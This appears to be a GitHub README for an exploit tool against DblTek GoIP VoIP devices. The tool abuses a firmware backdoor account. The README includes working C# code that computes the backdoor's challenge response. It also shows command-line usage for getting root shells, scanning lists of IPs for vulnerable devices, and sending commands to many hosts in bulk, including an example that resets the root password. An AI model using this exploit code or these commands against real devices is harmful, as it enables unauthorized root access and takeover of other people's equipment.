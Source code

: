 # DblTekGoIPPwn

Tool to exploit challenge response system in vulnerable DblTek GoIP devices. Can generate responses to
specified challenges, test hosts for the vulnerability, run commands on vulnerable hosts, and drop
into a root shell on any vulnerable host.

## The Vulnerability

On March 2nd, 2017, Trustwave released a vulnerability that security researchers found in the DblTek
GoIP VoIP Phone. The vulnerability was a backdoor in the firmware for an account named 'dbladm'. When
a user entered this as their username in a telnet prompt, the system would present a challenge that when
followed with the right response, gave the user a root shell on the system.

The problem with such a challenge response system is that the devices are as secure as the algorithm for
generating the responses, which was reverse engineered from firmware binaries provided by DblTek. Using this
algorithm, a root shell can be aquired on ANY DblTek GoIP device.

Original Article: https://www.trustwave.com/Resources/SpiderLabs-Blog/Undocumented-Backdoor-Account-in-DBLTek-GoIP/

Using the description of the backdoor provided in the article, I was able to write what I believe to be
some of the first exploit code for this vulnerability. The core of this is of course the algorithm to
generate the response based on a given challenge. Here is a function to do this written in C#.

```C#
static string ComputeResponse(string challengeStr)
{
    int challenge = Convert.ToInt32(challengeStr.Substring(1)); // Get just the number after 'N'.

    string modified = (challenge + 20139 + (challenge >> 3)).ToString(); // Perform some dummy 1337 operations.

    byte[] buffer = new byte[64];
    // Copy the string into the first part of the buffer.
    for (int i = 0; i < modified.Length; i++)
        buffer[i] = (byte)modified[i];

    var md5 = MD5.Create();
    byte[] hash = md5.ComputeHash(buffer); // Calculate the MD5 of the buffer.

    StringBuilder sb = new StringBuilder(); // Will hold the results.
    // Take the unpadded hex value of the first six bytes of the MD5.
    for (int i = 0; i < 6; i++)
        sb.Append(hash[i].ToString("x"));

    return sb.ToString(); // Profit
}
```

## DblTekGoIPPwn Command Line Interface (CLI)

When DblTekPwn is ran without arguments, the help is displayed. This is the output:

```
USAGE: DblTekPwn.exe [MODE] [HOSTS] [OUTPUT]

[MODE]:
-c --compute-response [CHALLENGE]         Computes a response to the given challenge.
-r --root-shell                           Starts a root shell with the vulnerable host.
-s --send-commands    [COMMAND_FILE]      Sends commands from a file to vulnerable hosts.
-t --test                                 Tests hosts and determines if they are vulnerable.
-h --help                                 Displays this help and exits.

[HOSTS]:
-n --name             [IP]                Specifies a single IP address.
-f --file             [IP_FILE]           Specifies a file with IP\nIP\nIP.

[OUTPUT]:
-o --output           [OUTPUT_FILE]       Specifies an output file. Default stdin.
```

## Examples

### Getting a Root Shell on a Vulnerable System

DblTekGoIPPwn makes it easy to get a root shell on any vulnerable system. Simply run the
following command using the vulnerable IP.

```
DblTekPwn.exe --root-shell --name 192.168.1.1
```

You will see output that looks like this:
```
Password: ***********

```

From here you can begin entering commands (there is no shell prompt).

### Calculating a Challenge Response

Say you wanted to calculate the response to a GoIP challenge ```N1746203308```. You would just
run the following command.

```
DblTekPwn --compute-response N1746203308
```

The output will be the response:
```
d6176d3aab2
```

### Checking a List of IPs

Say you wished to check ```list.txt``` of IPs for GoIPs that are vulnerable and send this output
to ```results.txt```. First make sure that the IPs are in format ```ip:port``` (port is default 23)
and that the IPs are seperated by a newline ```\n```. The following command could then be ran.

```
DblTekPwn.exe --test --file list.txt --output results.txt
```

list.txt:
```
192.168.1.0
192.168.1.1
192.168.1.2:1337
192.168.1.3
192.168.1.4:2323
```

results.txt:
```
192.168.1.0 False
192.168.1.1 True
192.168.1.2:1337 True
192.168.1.3 False
192.168.1.4:2323 False
```

The ```False``` or ```True``` after the host indicates whether or not the IP is vulnerable.

### Sending Commands to a List of IPs

Say you had a list of commands (which is really a list of telnet inputs) in ```cmds.txt```
to send to ```list.txt``` of IPs and send the output to ```results.txt```. First make sure
that the IPs are in format ```ip:port``` (port is default 23) and that BOTH the IPs AND commands
are seperated by a newline ```\n``` in their respective files. The following command could then
be ran.

```
DblTekPwn.exe --send-commands cmds.txt --file list.txt --output results.txt
```

list.txt:
```
192.168.1.0
192.168.1.1
192.168.1.2:1337
192.168.1.3
192.168.1.4:2323
```

cmds.txt:
```
passwd root
toor
toor

exit
```

results.txt:
```
192.168.1.0 False
192.168.1.1 True
192.168.1.2:1337 True
192.168.1.3 False
192.168.1.4:2323 False
```

The ```False``` or ```True``` after the host indicates whether or not the connection was successfully
made and the commands delivered.

## DISCLAIMER

I never thought I would have to write one of these BUT, I am not liable in ANY WAY for misuse or illegality derrived from
this software. Anybody who says otherwise can contact the lawfirm of "Goatse & Goatse".
